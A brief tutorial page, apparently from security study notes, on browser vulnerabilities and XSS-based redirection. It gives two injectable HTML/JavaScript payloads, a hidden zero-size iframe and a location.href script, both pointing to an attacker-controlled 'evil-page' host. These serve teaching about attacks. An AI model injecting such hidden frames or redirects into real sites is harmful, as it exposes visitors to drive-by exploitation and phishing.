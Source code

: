 # Browser vulnerabilities

We have mostly been looking at vulnerabilities found in sites that let's us either attack the user or the underlying system. But there is also another sort of vulnerability. When the browser itself is vulnerable and can lead to remote code execution.

And example of this is ms12-036. 


## XSS and redirection

Most attacks against browsers is based on social engineering. The idea is that you trick the user to click on a link. That link, or that website, is usually controlled by the attacker in one way or another. It can be a legitimate site that the attacker is using, or it might be the attackers own server.

Foe example, if the attacker is able to inject code html or javascript the attacker can redirect the user to load another page.


One technique is to hide the redirection in a frame, this way the user won't even notice that an external page is being loaded. 
```
<iframe SRC="http://192.168.1.101/evil-page" height = "0" width ="0"></iframe>
```
A less subtle technique is by just redirecting the user, with a script like this:
```
<script>location.href='http://192.168.1.101/evil-page';</script>
```